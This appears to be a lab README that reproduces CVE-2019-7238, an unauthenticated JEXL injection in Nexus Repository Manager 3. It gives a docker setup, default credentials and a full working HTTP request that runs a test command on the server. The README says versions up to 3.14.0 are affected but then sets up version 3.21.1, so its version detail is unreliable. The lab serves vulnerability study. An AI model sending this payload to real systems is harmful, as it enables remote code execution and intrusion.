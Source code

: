 # Nexus Repository Manager 3 Unauthenticated Remote Code Execution (CVE-2019-7238)

[中文版本（Chinese version）](README.zh-cn.md)

Nexus Repository Manager is a repository manager that organizes, stores and distributes artifacts needed for development.

In the version <= 3.14.0, insufficient access control and JEXL expression injection issue have been discovered in Nexus Repository 3 that allows for an unauthenticated attacker to execute arbitrary code by crafting a malicious request to Nexus Repository.

References:

- https://support.sonatype.com/hc/en-us/articles/360017310793-CVE-2019-7238-Nexus-Repository-Manager-3-Missing-Access-Controls-and-Remote-Code-Execution-February-5th-2019
- https://xz.aliyun.com/t/4136
- https://www.anquanke.com/post/id/171116
- http://commons.apache.org/proper/commons-jexl/

## Vulnerable environment

Execute following command to start a Nexus Repository Manager version 3.21.1:

```
docker compose up -d
```

After the server is started, browse `http://your-ip:8081` to see the home page of Nexus. Login the admin panel with account `admin:admin123` and finish the initialize wizard.

Then, upload a JAR package through maven-releases:

![](1.png)

To exploit this issue, Nexus Repository should have at least one package.

## Exploit

Send following request to execute `touch /tmp/success` command, no authentication needed:

```
POST /service/extdirect HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 368
Connection: close

{"action":"coreui_Component","method":"previewAssets","data":[{"page":1,"start":0,"limit":50,"sort":[{"property":"name","direction":"ASC"}],"filter":
[{"property":"repositoryName","value":"*"},{"property":"expression","value":"233.class.forName('java.lang.Runtime').getRuntime().exec('touch /tmp/success')"},{"property":"type","value":"jexl"}]}],"type":"rpc","tid":8}
```

As you can see, `/tmp/success` is executed:

![](2.png)

The principle is that the JEXL expression in the expression position is executed, please refer to the documentation for details.

Use BCEL classloader to archive printable response:

![](3.png)
